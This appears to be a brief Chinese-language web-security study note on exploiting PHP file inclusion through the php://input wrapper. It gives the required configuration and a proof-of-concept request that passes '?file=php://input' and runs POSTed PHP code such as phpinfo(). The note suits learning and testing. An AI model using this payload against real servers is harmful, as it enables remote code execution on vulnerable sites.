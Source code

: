 ```
php://input 将POST请求的数据作为PHP代码执行
使用条件：
	allow_url_fopen:Off/On
	allow_url_include: On(必须打开)
使用方法:
?file =php://input
[POST] :   <?php phpinfo();?>(POST DATA中的内容)
```

![image-20210723170544310](文件上传/image-20210723170544310.png)

![image-20210723170553591](文件上传/image-20210723170553591.png)
